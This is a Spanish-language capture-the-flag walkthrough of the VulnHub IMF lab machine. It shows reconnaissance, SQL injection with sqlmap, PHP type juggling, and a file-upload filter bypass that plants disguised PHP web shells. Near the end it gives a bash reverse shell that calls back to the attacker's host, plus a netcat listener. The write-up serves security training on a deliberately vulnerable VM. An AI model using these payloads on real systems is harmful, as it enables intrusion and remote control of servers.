



# IMF

https://www.vulnhub.com/entry/imf-1,162/

```
Welcome to "IMF", my first Boot2Root virtual machine. IMF is a intelligence agency that you must hack to get all flags and ultimately root. The flags start off easy and get harder as you progress. Each flag contains a hint to the next flag. I hope you enjoy this VM and learn something.
```

## Reconocimiento

Vamos a buscarlo en la red mediante el siguiente comando para obtener su IP:

```bash
arp-scan -I ens33 --localnet --ignoredups

192.168.0.36	00:0c:29:33:1a:e8	VMware, Inc.
```

Vamos a hacer un escaneo de puertos con `nmap` para ver qué servicios están corriendo:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.36 -oG allPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Ahora con un escaneo más detallado para ver qué versión del servicio está corriendo:

```bash
nmap -sCV -p80 192.168.0.36

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
```
Apache httpd 2.4.18 indica que estamos ante un Ubuntu Xenial.

También vamos a ver las tecnologías que está usando el servidor web con `whatweb`:

```bash
whatweb http://192.168.0.36
http://192.168.0.36 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.0.36], JQuery[1.10.2], Modernizr[2.6.2.min], Script, Title[IMF - Homepage], X-UA-Compatible[IE=edge]
```

Al entrar a http://192.168.0.36/ nos encontramos lo siguiente:



```bash
nmap --script http-enum -p80 192.168.0.36
```

Este comando es interesante para enumerar directorios y archivos en el servidor web, sin embargo no nos devuelve nada. Vamos a usar `gobuster` para enumerar directorios en el servidor web:

```bash
gobuster dir -u http://192.168.0.36 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20

/images               (Status: 301) [Size: 313] [--> http://192.168.0.36/images/]
/css                  (Status: 301) [Size: 310] [--> http://192.168.0.36/css/]
/js                   (Status: 301) [Size: 309] [--> http://192.168.0.36/js/]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.0.36/fonts/]
/less                 (Status: 301) [Size: 311] [--> http://192.168.0.36/less/]
/server-status        (Status: 403) [Size: 277]
```

Vemos que hay un directorio llamado `/server-status` que nos devuelve un error 403, lo que significa que no tenemos permisos para acceder a él

http://192.168.0.36/contact.php

Aquí tenemos un formulario de contacto, y aparecen varias peronas, vamos a quedarnos con el nombre de todas:

```
Roger S. Michaels
rmichaels@imf.local

Alexander B. Keith
akeith@imf.local

Elizabeth R. Stone
estone@imf.local
```

Le damos a ctrl+u para ver el código fuente de la página y vemos que hay un comentario que nos dice:

```html
<!-- flag1{YWxsdGhlZmlsZXM=} -->
```

Vemos que está en base64, vamos a decodificarlo con `base64 -d`:

```bash
echo "YWxsdGhlZmlsZXM=" | base64 -d; echo
allthefiles
```

La primera flag es `flag1{allthefiles}`.

Volviendo a revisar el código fuente de la página, vemos que hay unos scripts:

```html

<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>

```

Están en base64, vamos a decodificarlos:

```bash
echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==" | base64 -d; echo

flag2{aW1mYWRtaW5pc3RyYXRvcg==}

echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d; echo
imfadministrator
```

http://192.168.0.36/imfadministrator/

Vemos un login, en el código fuente pone lo siguiente:

```html
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
```

Si hubiera SQL podriamos haber probado lo siguiente:

```
rmichaels' or 1=1-- -
rmichaels' and 1=1-- -
rmichaels' or '1'='1
rmichaels' and sleep(5)--
```

Vemos que no usa SQL, interceptamos la petición con `burpsuite`.

```bash
POST /imfadministrator/ HTTP/1.1

Host: 192.168.0.36

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 21

Origin: http://192.168.0.36

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Referer: http://192.168.0.36/imfadministrator/

Cookie: PHPSESSID=icf8p21voijk34j782kju21896

Upgrade-Insecure-Requests: 1

Priority: u=0, i


user=admin&pass=admin
```

Vemos que la respuesta son user es `invalid username`, sin embargo, al poner rmichaels nos pone `invalid password`, por lo que sabemos que el usuario es rmichaels

Como esta hardcodeado el password, podemos probar con un type juggling, en el campo de password ingresamos un array, por ejemplo:

```bash
user=rmichaels&pass[]=NOCONTRASEÑA
```

Vemos la respuesta:

```html
flag3{Y29udGludWVUT2Ntcw==}<br />Welcome, rmichaels<br /><a href='cms.php?pagename=home'>IMF CMS</a>
```

```bash
echo "Y29udGludWVUT2Ntcw==" | base64 -d; echo
continueTOcms
```

Vemos que la conttraseña es `continueTOcms`, nos loggeamos y nos lleva a un CMS (Content Management System) que es un panel de administración:

```
IMF CMS
Menu: Home | Upload Report | Disavowed list | Logout

Welcome to the IMF Administration. 
```

En el apartado Upload Report, nos dice que está under construction, y dissavowed list nos pone una imagen en grande que duce redacted junto con textos en asteriscos



Intentamos lo siguiente sin resultado:

```
RFI
http://192.168.0.36/imfadministrator/cms.php?pagename=http://192.168.0.19/&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.0.19/443%200%3E%261%22

LFI
http://192.168.0.36/imfadministrator/cms.php?pagename=php://filter/convert.base64-encode/resource=home

Directory path traversal
http://192.168.0.36/imfadministrator/cms.php?filename=....//....//....//....//etc/passwd%00

```

> http://192.168.0.36/imfadministrator/cms.php?filename=home'

```
 Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29
```

Vemos que es un error de SQL, por lo que podemos probar con un SQL injection, vamos a probar con el siguiente payload:

```
' OR 1=1--
' AND 1=1--
 Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29

' OR '1'='1
Under Construction

' OR '1'='2
 Welcome to the IMF Administration. 
```

Vemos que depende de si es true o false, nos devuelve un mensaje u otro.

```
' or substring(database(),1,1)='a
Under Construction
' or substring(database(),1,1)='b
Welcome to the IMF Administration. 
```
La base de datos empieza con la letra a.

Usamos sqlmap para automatizar el proceso:

```bash
sqlmap -u "http://192.168.0.36/imfadministrator/cms.php?pagename=home" --cookie="PHPSESSID=icf8p21voijk34j782kju21896" --dbs --batch

available databases [5]:                                                                          
[*] admin
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

```bash
sqlmap -u "http://192.168.0.36/imfadministrator/cms.php?pagename=home" --cookie="PHPSESSID=icf8p21voijk34j782kju21896" -D admin --tables --batch

Database: admin
[1 table]
+-------+
| pages |
+-------+
```

```bash
sqlmap -u "http://192.168.0.36/imfadministrator/cms.php?pagename=home" --cookie="PHPSESSID=icf8p21voijk34j782kju21896" -D admin -T pages --columns --batch

Database: admin                                                                                                                                                                        
Table: pages
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| pagedata | text         |
| pagename | varchar(255) |
+----------+--------------+
```

```bash
sqlmap -u "http://192.168.0.36/imfadministrator/cms.php?pagename=home" --cookie="PHPSESSID=icf8p21voijk34j782kju21896" -D admin -T pages -C id,pagedata,pagename --dump --batch

[4 entries]
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| id | pagedata                                                                                                                                                              | pagename             |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| 1  | Under Construction.                                                                                                                                                   | upload               |
| 2  | Welcome to the IMF Administration.                                                                                                                                    | home                 |
| 3  | Training classrooms available. <br /><br /> Contact us for training.                                                               | tutorials-incomplete |
| 4  | <h1>Disavowed List</h1><br /><ul><li>*********</li><li>****** ******</li><li>*******</li><li>**** ********</li></ul><br />-Secretary | disavowlist          |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
```

Vemos que hay una página llamada `tutorials-incomplete`, al acceder a ella vemos una imagen de una pizarra con un código QR.



NOs metemos a una pagina QR online decode: https://qrcoderaptor.com/es/

flag4{dXBsb2Fkcjk0Mi5waHA=}

```bash
echo "dXBsb2Fkcjk0Mi5waHA=" | base64 -d; echo
uploadr942.php
```

http://192.168.0.36/imfadministrator/uploadr942.php

Nos metemos y tenemos una pagina de subida de archivos.

Creamos el archivo `cmd.php` con el siguiente contenido:

```php
<?php
system($_GET['cmd']);
?>
```

Lo intentamos subir pero nos aparece un mensaje:

```
 Error: Invalid file type.
```

Volvemos a subirlo interceptando la petición con burpsuite y probamos a cambiar la extensión a php5

```
 Error: Invalid file type.
```

Cambiamos el content-type a `image/gif` y volvemos a subirlo:

```
Content-Disposition: form-data; name="file"; filename="cmd.gif"
Content-Type: image/gif

GIF8;
<?php
system($_GET['cmd']);
?>
```

Pro resulta en esto: Error: CrappyWAF detected malware. Signature: system php function detected

Vamos a jugar con .htaccess para que nos deje subir el archivo, subimos un archivo `.htaccess` con el siguiente contenido:

```
Content-Disposition: form-data; name="file"; filename=".htaccess"

Content-Type: text/plain

AddType application/x-httpd-php .test
```

Pero al subirlo nos dice que no se puede subir el archivo.

```
Content-Disposition: form-data; name="file"; filename="cmd.test"
Content-Type: application/x-httpd-php

<?php
system($_GET['cmd']);
?>
```

nada, nos sigue diciendo que no se puede subir el archivo, vamos a probar con lo de gif pues alomejor podemos evitar que detecte malware:

```
Content-Disposition: form-data; name="file"; filename="cmd.gif"
Content-Type: image/gif

GIF8;
<?php
 $c?$_GET['cmd'];
 echo `$c`;
?>
```

> File successfully uploaded

Le conseguimos subir el archivo.

También podríamos haber probado a poner system en hexadecimal:

```php
<?php
  "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>
```

Vemos que en la respuesta nos deja un comentario que nos dice, probablemente, la ruta del archivo que acabamos de subir:

```html
<!-- 4a670592a9c2 -->
```

vemos que podemos ejecutar comandos en el servidor web, probamos con `id`:

http://192.168.0.36/imfadministrator/uploads/5144ee08612e.gif?cmd=id

> GIF8; uid=33(www-data) gid=33(www-data) groups=33(www-data) 

Vamos a hacer un reverse shell, para ello primero levantamos un listener en nuestro equipo atacante:

http://192.168.0.36/imfadministrator/uploads/5144ee08612e.gif?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.19/443 0>%261'

```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.0.36 37574
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
www-data@imf:/var/www/html/imfadministrator/uploads$ 
```

Realizamos un tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

Vemos la flag5

```bash
www-data@imf:/var/www/html/imfadministrator/uploads$ cat flag5_abc123def.txt 
flag5{YWdlbnRzZXJ2aWNlcw==}

echo "YWdlbnRzZXJ2aWNlcw==" | base64 -d; echo
agentservices
```

## Lo siguiente es buffer orflow, lo dejaremos para más adelante mi objetivo es la eJPTv2